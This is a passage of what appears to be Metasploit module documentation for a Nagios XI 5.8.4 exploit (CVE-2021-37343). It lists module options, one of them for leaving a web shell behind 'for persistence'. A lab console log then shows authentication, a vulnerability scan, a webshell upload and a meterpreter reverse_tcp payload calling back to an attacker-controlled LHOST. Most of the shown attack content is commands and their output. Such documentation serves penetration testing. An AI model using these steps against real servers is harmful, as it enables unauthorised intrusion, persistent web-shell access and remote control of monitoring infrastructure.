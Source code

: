 The username to log in to the Nagios XI web interface with. The default is `nagiosadmin`.

### PASSWORD

The password to log in with. Set to `nil` by default.

### DEPTH

The depth of the path traversal. Default is 10.

### WEBSHELL_NAME

Allows the user to name the webshell. If the user doesn't provided a name then one will be automatically generated.
Set to `nil` by default.

### DELETE_WEBSHELL

Indicates if the web shell should be deleted after the meterpreter session or reverse shell is established.
A user may want to leave behind a web shell for persistence reasons. The default is `true`.

## Scenarios

### Nagios XI 5.8.4 - Get a Meterpreter Session

```
msf6 > use auxiliary/scanner/http/nagios_xi_scanner
msf6 auxiliary(scanner/http/nagios_xi_scanner) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf6 auxiliary(scanner/http/nagios_xi_scanner) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 auxiliary(scanner/http/nagios_xi_scanner) > run

[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.8.4
[+] The target appears to be vulnerable to the following 1 exploit(s):
[*] 
[*] 	CVE-2021-37343    exploit/linux/http/nagios_xi_autodiscovery_webshell
[*] 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/nagios_xi_scanner) > use exploit/linux/http/nagios_xi_autodiscovery_webshell
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > run

[*] Started reverse TCP handler on 10.0.0.3:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] The target appears to be vulnerable. Determined using the self-reported version: 5.8.4
[*] Attempting to grab a CSRF token from /nagiosxi/includes/components/autodiscovery/?mode=newjob
[*] Uploading webshell to /nagiosxi/includes/components/highcharts/exporting-server/temp/fJHspzgor.php
[*] Testing if web shell installation was successful
[+] Web shell installed at /nagiosxi/includes/components/highcharts/exporting-server/temp/fJHspzgor.php
```